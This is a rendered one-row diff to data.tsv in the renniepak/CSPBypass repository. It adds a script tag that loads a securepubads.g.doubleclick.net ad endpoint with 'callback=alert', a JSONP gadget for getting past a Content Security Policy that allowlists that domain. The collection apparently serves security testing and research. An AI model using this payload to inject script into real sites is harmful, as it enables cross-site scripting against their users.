

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added securepubads.g.doubleclick.net

```diff
--- a/data.tsv
+++ b/data.tsv
+row 81: securepubads.g.doubleclick.net | <script src="https://securepubads.g.doubleclick.net/gampad/ads?gdfp_req=1&output=json_html&iu=%2F32173961%2Fdesktop%2Ffrontpage%2Flisting&sz=300x250&url=https%3A%2F%2Fwww.reddit.com%2F&vrg=147&callback=alert"></script>
```
